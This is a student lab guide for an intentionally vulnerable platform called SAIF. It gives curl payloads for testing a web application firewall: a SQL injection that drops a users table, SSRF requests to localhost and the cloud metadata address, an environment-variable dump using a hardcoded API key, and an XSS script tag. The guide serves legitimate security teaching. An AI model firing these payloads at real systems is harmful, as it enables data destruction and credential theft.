 # SAIF Attack Guidance for Students

This document provides practical examples for students to test common attacks on the SAIF platform, especially for evaluating WAF (Web Application Firewall) Layer 7 protections. All tests should be performed in a safe, isolated environment.

---

## 1. SQL Injection

**Test Endpoint:**
`/api/sqlversion?query=...`

**Example Attack:**
```bash
curl "http://<SAIF-API-URL>/api/sqlversion?query=1'; DROP TABLE users; --"
```
- Injects malicious SQL to attempt dropping a table.
- WAF should block or sanitize this request.

---

## 2. Command Injection / SSRF

**Test Endpoint:**
`/api/curl?url=...`

**Example Attacks:**
```bash
curl "http://<SAIF-API-URL>/api/curl?url=http://localhost:80"
curl "http://<SAIF-API-URL>/api/curl?url=http://127.0.0.1:80"
curl "http://<SAIF-API-URL>/api/curl?url=http://169.254.169.254/latest/meta-data/"
```
- Tests for Server-Side Request Forgery and command injection.
- WAF should block requests to internal IPs or metadata endpoints.

---

## 3. Environment Variable Disclosure

**Test Endpoint:**
`/api/printenv`

**Example Attack:**
```bash
curl -H "X-API-Key: insecure_api_key_12345" "http://<SAIF-API-URL>/api/printenv"
```
- Reveals environment variables, including secrets.
- WAF should block or mask sensitive output.

---

## 4. CORS Misconfiguration

**Test:**
Open browser console and run:
```javascript
fetch("http://<SAIF-API-URL>/api/healthcheck")
```
- If CORS is too permissive, requests from any origin will succeed.

---

## 5. Input Validation (XSS, Path Traversal)

**Test Endpoint:**
Any endpoint accepting user input (e.g., `/api/newfeature?input=<script>alert(1)</script>`)

**Example Attack:**
```bash
curl "http://<SAIF-API-URL>/api/newfeature?input=<script>alert(1)</script>"
```
- WAF should block or sanitize script tags.

---

## General Tips

- Replace `<SAIF-API-URL>` with your deployed API endpoint.
- Use tools like Burp Suite, OWASP ZAP, or browser DevTools for advanced testing.
- Document WAF responses (blocked, sanitized, logged) for each attack.

---

**Note:**
SAIF is intentionally vulnerable for educational purposes. Always test in a safe, isolated environment.
